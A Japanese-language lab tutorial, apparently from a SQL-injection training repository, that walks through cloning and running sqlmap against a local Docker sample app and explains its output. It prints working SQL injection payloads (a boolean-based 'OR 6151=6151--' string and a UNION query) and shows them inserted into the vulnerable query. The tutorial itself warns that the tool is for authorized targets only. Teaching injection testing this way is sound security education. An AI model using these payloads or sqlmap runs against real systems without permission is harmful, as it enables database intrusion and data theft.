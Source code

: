 # step3 - sqlmapを触る
## このステップのゴール
- sqlmapを実行して、結果を得ることができる。

## 注意
- DBに直接アクセスすると簡単に答えが分かりますが、一旦それはナシでお願いします :bow:

## はじめに
対象のアプリケーションに脆弱性があることを示すために、よく使われる診断方法は2つあります。脆弱性診断とペネトレーションテストです。前者は広く浅く、後者は深く狭く診断するイメージを持っていただくと良いと思います。

このペネトレーションテストで利用される1つのツールが、オープンソースの[sqlmap](https://github.com/sqlmapproject/sqlmap)です。sqlmapはSQL Injectionの脆弱性の検出等が可能なツールです。詳しくは公式のREADMEをご覧ください([ref](https://github.com/sqlmapproject/sqlmap#readme))。日本語訳もあります([ref](https://github.com/sqlmapproject/sqlmap/blob/master/doc/translations/README-ja-JP.md))

このツールは許可を受けた対象リソースに対して使用してください。なぜなら、内部的に検査対象のリソースに負荷をかけるリクエストを送るためです。深く考えずに実行すると対象リソースへの攻撃とみなされ、最悪訴えられることもあるため、注意してください。

## 手順

### 1. sqlmapのクローン

sqlmapのコードをクローンしてください。

```bash
git clone https://github.com/sqlmapproject/sqlmap.git
cd sqlmap
python3 sqlmap.py --help
```

### 2. sqlmapの実行

サンプルアプリケーションに対してsqlmapを実行してみましょう。まずはサンプルアプリケーションを実行しましょう。`sqli-chal/step3/`にいることを確認してください。

```bash
docker compose up
```

次に、sqlmapを実行してみます。sqlmapをクローンしたディレクトリに移動して、オプションを確認しましょう。

オプションは [lib/parse/cmdline.py#L114-859](https://github.com/sqlmapproject/sqlmap/blob/master/lib/parse/cmdline.py#L114-L859)で確認できます。今回は、この中から、今回の講義で利用する主要なオプションだけ抜粋します。他にもオプションはあるので各自読んでください。

|コマンドオプション|設定例|説明|
|:-:|:-:|:-:|
|`-u URL, --url=URL`|`-u "http://www.site.com/vuln.php?id=1"`|検査対象のURL|
|`-p テストパラメータ`|`-p id`|テストしたいパラメータ|
|`--dbms=データベース管理システム名(DBMS)`|`--dbms=sqlite`|検査対象のDBMS|
|`--level=レベル`|`--level=5`|実行するテストのレベル(1〜5の範囲で指定可能で、デフォルトは1)|
|`--risk=リスク`|`--risk=3`|実行するテストの危険性(1〜3の範囲で指定可能で、デフォルトは1)|

これらのオプションを適切に設定して、実行してみましょう。

### 3. sqlmapの実行

sqlmapを実行すると、次のような結果が得られると思います。

```plaintext
Parameter: name (GET)
    Type: boolean-based blind
    Title: OR boolean-based blind - WHERE or HAVING clause
    Payload: name=-9901' OR 6151=6151-- FfuT

    Type: UNION query
    Title: Generic UNION query (NULL) - 4 columns
    Payload: name=test' UNION ALL SELECT NULL,NULL,NULL,CHAR(113,120,112,122,113)||CHAR(81,73,101,97,75,99,82,98,77,115,115,120,117,118,122,120,99,121,89,66,99,80,105,86,90,88,69,98,105,107,119,102,88,102,102,70,77,122,119,77)||CHAR(113,118,107,120,113)-- EqlQ
```

この結果のうち、boolean-basedの方に注目してみましょう。表にすると以下のような形になります。

|属性|値|
|:-:|:-:|
|Type|boolean-based blind|
|Title|OR boolean-based blind - WHERE or HAVING clause|
|Payload|`name=-9901' OR 6151=6151-- FfuT`|

この結果から、`OR boolean-based blind`という攻撃の `WHERE` もしくは `HAVING` 句を利用した攻撃であることが分かります。そして、実際のペイロードは、`name=-9901' OR 6151=6151-- FfuT`です。実際に埋め込んで考えてみると良いです。

```sql
SELECT * FROM users WHERE name LIKE '%name=-9901' OR 6151=6151-- FfuT%' AND is_admin=0
```

このクエリを見ると、step2で確認したクエリとよく似ていることがわかります。OR条件で必ず成立するものを入れて、最後の条件を無視するようにしていることがわかります。

念の為、step2と同様に機能することを確認しましょう。`$ docker compose up`でコンテナを起動し、[http://127.0.0.1:31555/](http://127.0.0.1:31555/)にブラウザでアクセスしてください。その後、`name=-9901' OR 6151=6151-- FfuT`で検索してみます。すると、結果が出力されることが分かります。

しかし、ブラウザのアドレスバーを見ると、`http://localhost:31555/?name=name%3D-9901%27+OR+6151%3D6151--+FfuT`のように`name`が重複していることが分かります。したがって、`http://localhost:31555/?`の後に`name%3D-9901%27+OR+6151%3D6151--+FfuT`
を付与すれば良いことが分かります。この`?`以降に書く記法については、[MDNのドキュメント](https://developer.mozilla.org/ja/docs/Web/HTTP/Basics_of_HTTP/Identifying_resources_on_the_Web#%E3%82%AF%E3%82%A8%E3%83%AA)をご覧ください。

では、次の[step4 - sqlmapの実装を読む](../step4/)では、このクエリをどのように検出しているか確認していきましょう。
